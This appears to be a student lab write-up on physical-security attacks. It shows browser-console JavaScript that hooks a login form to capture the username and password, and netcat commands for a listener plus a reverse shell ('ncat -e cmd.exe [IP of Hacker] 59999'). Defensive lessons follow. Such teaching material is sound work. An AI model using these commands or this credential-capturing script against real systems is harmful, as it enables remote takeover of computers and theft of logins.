


# Activity 4 - Physical Security

## 1. Javascript Injection

We write this Javascript into console:

```javascript
document
  .getElementById("loginForm")
  .addEventListener("submit", () =>
    alert(
      "your username: " +
        document.getElementById("username").value +
        "\nyour password: " +
        document.getElementsByName("password")[0].value
    )
  );
```

In this code, we get the form element from the DOM and add an event listener that will run our code when the form submits. On submission, we will get the value of the username and password text fields from the DOM by the id/name of the text field elements, and alert the value. We could change from alerting the value to sending it to our server, for example, to steal the username and password.

The below image shows the result when form is submitted. (If the username and password are correct the user will also log in successfully. If this is undesired, we can use `event.preventDefault()`)



## 2. Trojan Horse

In this exercise, one computer acts as the attacker and the other computer as the victim. The attacker uses netcat to listen on a specified port (59999 in this case) with the command `ncat -l -p 59999`, and has the victim send a remote shell to the hacker using the command `ncat -e cmd.exe [IP of Hacker] 59999`. In actual cases the victim would probably be tricked into running this command, but in our exercise the victim enters this command intentionally. With this, the attacker can now control the victim’s computer through the remote shell.

The following image shows the attacker after the victim has sent the remote shell. As you can see, the attacker can explore the victim's computer.



## 3. Lessons Learned

When you leave your computer unattended and a hacker can physically access it, it is possible for the hacker to plant serious threats on your computer. The threat could only affect your computer - for example, the hacker could inject Javascript into your browser in order to manipulate or steal your personal information, like in Exercise 1, or run a script to harm your computer and data.

A worse scenario would be if the hacker plants something that can also spread and attack other computers. For example, the hacker plants a worm on your computer. The worm spreads through the network to other devices and infects them, causing widespread harm depending on the worm’s payload (ransomware attack, steal data, delete files, etc.).

Other than physically accessing a computer, hackers can also remotely manipulate a computer, such as by using netcat to construct a Trojan horse. This could be done by disguising the netcat remote shell command as a different program (e.g. an innocuous email attachment) and tricking a user into running it through social engineering, for example.

As a user, we should prevent ourselves from physical attacks by physical security measures such as lock screens, placing your computer in a secure location, or multifactor authentication on the device. To protect ourselves from malware that can remotely manipulate our computer, we should check our security settings, have antivirus software installed, and be wary of social engineering attacks and suspicious programs.
